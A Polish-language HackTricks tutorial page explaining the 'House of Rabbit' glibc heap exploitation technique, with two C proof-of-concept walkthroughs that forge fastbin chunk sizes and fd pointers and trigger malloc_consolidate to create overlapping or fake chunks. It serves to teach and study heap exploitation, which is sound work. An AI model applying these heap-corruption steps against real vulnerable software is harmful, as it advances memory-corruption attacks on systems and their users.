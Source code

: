 # House of Rabbit

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Wymagania

1. **Możliwość modyfikacji wskaźnika fd fast bin lub rozmiaru**: Oznacza to, że możesz zmienić wskaźnik do przodu kawałka w fastbin lub jego rozmiar.
2. **Możliwość wywołania `malloc_consolidate`**: Można to zrobić, przydzielając duży kawałek lub łącząc górny kawałek, co zmusza stertę do konsolidacji kawałków.

### Cele

1. **Utworzenie nakładających się kawałków**: Aby jeden kawałek nakładał się na inny, co pozwala na dalsze manipulacje stertą.
2. **Fałszowanie fałszywych kawałków**: Aby oszukać alokator, aby traktował fałszywy kawałek jako prawdziwy kawałek podczas operacji na stercie.

## Kroki ataku

### POC 1: Modyfikacja rozmiaru kawałka fast bin

**Cel**: Utworzenie nakładającego się kawałka poprzez manipulację rozmiarem kawałka fastbin.

* **Krok 1: Przydziel kawałki**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
We allocate two chunks of 0x40 bytes each. These chunks will be placed in the fast bin list once freed.

* **Krok 2: Zwolnij kawałki**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
Zwalniamy oba kawałki, dodając je do listy fastbin.

* **Krok 3: Zmodyfikuj rozmiar kawałka**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
Zmieniamy metadane rozmiaru `chunk1` na 0xa1. To kluczowy krok, aby oszukać alokator podczas konsolidacji.

* **Krok 4: Wywołaj `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Alokacja dużego kawałka wywołuje funkcję `malloc_consolidate`, łącząc małe kawałki w szybkim binie. Manipulowany rozmiar `chunk1` powoduje, że nakłada się na `chunk2`.

Po konsolidacji `chunk1` nakłada się na `chunk2`, co umożliwia dalszą eksploitację.

### POC 2: Zmodyfikuj wskaźnik `fd`

**Cel**: Stworzyć fałszywy kawałek poprzez manipulację wskaźnikiem `fd` szybkiego bina.

* **Krok 1: Alokuj kawałki**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Wyjaśnienie**: Alokujemy dwa kawałki, jeden mniejszy i jeden większy, aby przygotować stertę dla fałszywego kawałka.

* **Krok 2: Utwórz fałszywy kawałek**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
Pisaliśmy fałszywe metadane chunków do `chunk2`, aby zasymulować mniejsze chunki.

* **Krok 3: Zwolnij `chunk1`**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Wyjaśnienie**: Zwalniamy `chunk1`, dodając go do listy fastbin.

* **Krok 4: Zmodyfikuj `fd` `chunk1`**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Wyjaśnienie**: Zmieniamy wskaźnik do przodu (`fd`) `chunk1`, aby wskazywał na nasz fałszywy chunk wewnątrz `chunk2`.

* **Krok 5: Wywołaj `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Przydzielenie dużego kawałka ponownie wyzwala `malloc_consolidate`, który przetwarza fałszywy kawałek.

Fałszywy kawałek staje się częścią listy fastbin, co czyni go legalnym kawałkiem do dalszej eksploatacji.

### Podsumowanie

Technika **House of Rabbit** polega na modyfikacji rozmiaru kawałka fast bin, aby stworzyć nakładające się kawałki lub manipulacji wskaźnikiem `fd`, aby stworzyć fałszywe kawałki. Pozwala to atakującym na fałszowanie legalnych kawałków w stercie, co umożliwia różne formy eksploatacji. Zrozumienie i praktykowanie tych kroków poprawi twoje umiejętności eksploatacji sterty.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
